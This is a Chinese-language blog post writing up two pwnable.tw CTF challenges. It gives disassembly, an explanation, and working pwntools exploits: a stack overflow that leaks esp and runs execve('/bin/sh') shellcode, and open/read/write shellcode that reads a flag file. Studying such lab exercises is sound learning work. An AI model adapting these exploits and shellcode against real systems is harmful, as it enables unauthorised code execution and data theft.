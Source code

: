 ```yaml
---
title: pwnable尝试
author: ch3n9w
typora-root-url: ../
date: 2022-01-27 17:48:33
categories: CTF
---
```


尝试学pwn,放弃学pwn

<!--more-->

## start

下载, 反编译获得如下代码

```
.text:08048060                 public _start
.text:08048060 _start          proc near               ; DATA XREF: LOAD:08048018↑o
.text:08048060                 push    esp
.text:08048061                 push    offset _exit
.text:08048066                 xor     eax, eax
.text:08048068                 xor     ebx, ebx
.text:0804806A                 xor     ecx, ecx
.text:0804806C                 xor     edx, edx
.text:0804806E                 push    ':FTC'
.text:08048073                 push    ' eht'
.text:08048078                 push    ' tra'
.text:0804807D                 push    'ts s'
.text:08048082                 push    2774654Ch
.text:08048087                 mov     ecx, esp        ; addr
.text:08048089                 mov     dl, 14h         ; len
.text:0804808B                 mov     bl, 1           ; fd
.text:0804808D                 mov     al, 4
.text:0804808F                 int     80h             ; LINUX - sys_write
.text:08048091                 xor     ebx, ebx
.text:08048093                 mov     dl, 3Ch ; '<'
.text:08048095                 mov     al, 3
.text:08048097                 int     80h             ; LINUX -
.text:08048099                 add     esp, 14h
.text:0804809C                 retn
.text:0804809C _start          endp ; sp-analysis failed
```

1. esp压栈, 返回地址压栈
2. 清空了eax, ebx, ecx, edx
3. 四次push压入字符串 Let’s start the CTF :
4. 将栈顶地址作为参数移到ecx中
5. 将20移到dl (edx的低八位)中, 20 就是上面字符串的长度
6. sys_write将要向stdout写入, 所以将1移动到bl (ebx的低8位)中
7. 因为要调用的系统调用为sys_write, 所以将其系统呼叫号也就是4移动到al (eax的低八位)中
8. 使用 int 80h 来调用中断, 相当于call, 参数为前面的那些, 至此标准输出中写入了字符串
9. ebx置0, 表示从标准输入中读取
10. 将60传入edx, 表示读取60个字节 (注意这些字节会覆盖原先栈中的字符串)
11. 系统呼叫号置3, 表示使用sys_read调用
12. int 80h来调用中断, 将内容读入ecx中的地址也就是栈顶中
13. 将esp增加20字节
14. 弹栈并执行弹出地址所指向的指令

攻击思路为:

- 程序向栈中写入数据, 然后再将esp增加20然后弹栈执行, 但是我们读取的数据最大有60字节, 那么可以读入超过20字节的数据, 并控制弹栈执行的指令. 如果让弹出执行的指令为sys_write部分的代码, 那么就会泄漏最开始压栈的esp地址
- 泄漏esp地址之后, 进行第二次攻击, 同样是弹出执行sys_write, 接着代码继续执行到sys_read, 这里让程序读入20个垃圾字符, 接下来程序会将esp增加20, 然后再次弹栈执行, 这次弹栈出来要执行的指令的地址 应该是shellcode的地址, 那么shellcode的地址应该是多少呢? 应该是最开始的esp地址加上20, 这里我第一次看的时候想了好久, 可以看这位师傅的图帮助理解https://xuanxuanblingbling.github.io/ctf/pwn/2019/08/30/start/

exp如下

```
from pwn import *
p = remote('chall.pwnable.tw', 10000)
# p = process('./start')
shellcode= '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

pad = 'a'*20
# pad = pad.decode('utf8')
addr = 0x8048087
payload1 = pad + p32(addr).decode('unicode_escape')
p.send(payload1)
p.recvuntil(":")
oldesp = u32(p.recv(4))
shellcode_addr = oldesp + 20
payload2 = pad + p32(shellcode_addr).decode('unicode_escape') + shellcode
p.send(payload2)
p.interactive()
```

## orw

逆向得到源代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

orw_seccomp 说是限制执行的函数的, 题目说只能执行sys_open sys_read sys_write. 然后接下来程序读取了shellcode并且执行. 所以向程序发送asm代码, 先对flag文件使用sys_open, 然后用sys_read读取内容, 最后使用sys_write 将内容写到标准输出中.

```python
from pwn import *
context(arch='i386',os='linux')
#context(log_level='debug')
io = remote('chall.pwnable.tw',10001)
open_code = '''
mov eax, 0x5; 
push 0x00006761; 
push 0x6c662f77; 
push 0x726f2f65; 
push 0x6d6f682f; 
mov ebx,esp; 
xor ecx,ecx; 
xor edx,edx; 
int 0x80;
'''
read_code = '''
mov ecx, ebx; 
mov ebx, eax;
mov eax, 0x3; 
mov edx, 0x60; 
int 0x80;
'''
write_code = '''
mov eax, 0x4; 
mov ebx, 0x1; 
int 0x80;
'''
payload = asm(open_code+read_code+write_code)
io.recvuntil(':')
io.send(payload)
io.interactive()
```

